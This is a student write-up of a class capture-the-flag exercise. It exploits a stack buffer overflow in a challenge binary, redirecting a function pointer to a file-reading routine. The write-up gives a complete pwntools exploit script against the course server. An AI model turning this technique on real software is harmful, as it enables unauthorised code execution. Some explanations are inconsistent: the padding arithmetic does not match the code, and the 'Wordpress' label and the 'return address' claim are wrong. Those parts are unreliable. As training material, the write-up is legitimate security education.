


# CTF5

This document is a brief explanation of our resolution of the Wordpress CTF presented in class during week 5.

## Recognition

We start exploring the program source code and answering this questions:

- **Question1**: Is there any file that is opened and readed by the program?

- **Answer**: Yes, there is a file that is opened by the program named `rules.txt`.

- **Question2**: Is there any way to control the file that is opened?

- **Answer**: We can change the file that is opened by redirecting the `fun` pointer, to the function `readtxt` and giving the name of the file that we want to open, `flag.txt`.

- **Question3**: Is there any way to cause a buffer overflow? If yes, what do we can do with that?

- **Answer**: Yes, is possible to cause a buffer overflow because the program allocates a buffer with a size of 32 bytes, but when it reads input using `scanf`, it expects to receive a string of up to 45 characters, which corresponds to 45 bytes. Since the buffer can only hold 32 bytes, providing an input longer than this will cause the data to overflow. Knowing about this possiblity we can create a buffer overflow to redirect the pointer `fun` to the function `readtxt`.

## Searching and Analysing

First we testes if the program is safe or have some types of vulnerabilities by running the command `checksec program` and this was what we obtain:

<div align="center">
    <figure>
        
        <figcaption style="font-size: smaller;">Figure 1: Checksec information.</figcaption>
    </figure>
</div>

Here we can observe that the program have some important protection mechanisms deactivated:

 - **RELRO**: Without this, we can perform a GOT overwrite attack, redirecting the execution flow of the program.
 - **Stack Canary**: Here it says that the program has a canary but in the statement of the CTF it says that "the challenge binary does not contain a canary", make it easy to attack.
 - **PIE**: Without the PIE, the program loads at fixed address every time making it easy to exploit.

The program has some other important vulnerabilities deactivated but this are the most important ones to our exploit.

To realize the exploit we start by finding the memory address where the function `readtxt` is allocated. To do that we used the `gdb` tooland found that were the address `0x80497a5`.

<div align="center">
    <figure>
        
        <figcaption style="font-size: smaller;">Figure 2: readtxt address.</figcaption>
    </figure>
</div>

Then we just need to know what's the buffer size that we find by loocking at the source code and was 32 bytes.

This was all we need to do the exploit.

## Exploit

To do the exploit we create an script in python where we call the program, build a payload and put the payload in the input of the program.

Here is how the payload is constructed:
- `flag\x00`:
    - The string `"flag"` is followed by a null byte (`\x00`) to end the string.
    - This ensures the `sprintf` function in `readtxt` only processes `"flag"` and ignores the padding that follows.
- `b"A" * (31 - len("flag"))`:
    - This padding fills the rest of the buffer up to 31 bytes.
    - Since `"flag\x00"` is 5 bytes (`4 + 1` for the null byte), we pad with `31 - 5 = 26` bytes of A.
- `p32(0x80497a5)`
    - The little-endian address of `readtxt`
    - This overwrites the return address, redirecting execution to `readtxt`

Payload after construction:
```python
payload = b"flag\x00" + b"A" * (31 - len("flag")) + p32(0x80497a5)
```

To do this exloit we used the `pwntools` library in Python and this was the complete script we use to do this exploit:

```python
#!/usr/bin/python3
from pwn import *

# to attack the remote server
r = remote('ctf-fsi.fe.up.pt', 4000)
# to run locally
#r = process('./program')

readtxt_address = p32(0x80497a5)

flag = b"flag\x00"

payload = flag + b"A" * (31 - len("flag")) + readtxt_address
 
r.recvuntil(b"flag:\n")
r.sendline(payload)

buf = r.recv().decode()
print(buf)
```